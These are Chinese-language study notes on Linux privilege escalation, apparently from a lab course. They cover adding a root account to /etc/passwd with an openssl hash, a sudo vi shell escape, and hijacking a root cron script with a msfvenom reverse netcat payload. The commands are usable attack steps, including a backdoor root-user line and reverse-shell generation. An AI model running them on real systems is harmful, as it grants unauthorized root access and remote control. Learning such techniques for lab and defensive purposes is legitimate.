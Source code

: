 + 可以按照格式写入一行，创建一个root用户
+ 我们添加我们选择的密码哈希，并将 UID、GID 和 shell 设置为 root。
	+ 创建合规的hash密码
		+ **"openssl passwd -1 -salt \<salt\> \<password\> "**
		+ 例：salt -> new         password -> 123
		+ `openssl passwd -1 -salt new 123`
	+ new:\$1\$new\$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash

# Vi逃逸
## 过程
+ 前提：可以以root身份打开vi
+ `sudo vi`运行vi
+ 输入`:!sh`打开一个shell
## sudo -l
**列出可以以root身份运行的命令**

## GTFOBins
[URI](https://gtfobins.github.io/)

# 利用Crontab
+ Cron是一个长时间运行的进程 在特定日期和时间执行命令。

## 查看cronjobs
**`cat /etc/crontab`**

## 格式
+ 列表形式
+ 表头
	+ \#： 任务的ID序号
	+ m：分钟；h：小时
	+ dom：月份中的某一天；mon：月份；dow：星期几
	+ user：命令运行身份
	+ command：运行什么命令
+ 例:`17 *   1  *   *   *  root  cd / && run-parts --report /etc/cron.hourly`

## 利用
+ 前提：
	+ 存在以root权限运行的进程
		+ 这里以autoscript.sh为例，每5分钟运行
	+ 有权限修改这个程序
+ 过程
	+ 在主机上创建反向连接的负载
		+ `msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R`
	+ 将负载写入程序
		+ `echo [MSFVENOM OUTPUT] > autoscript.sh`
		+ ![Pasted image 20240205173928.png](/img/user/picture/Pasted%20image%2020240205173928.png)
	+ 监听
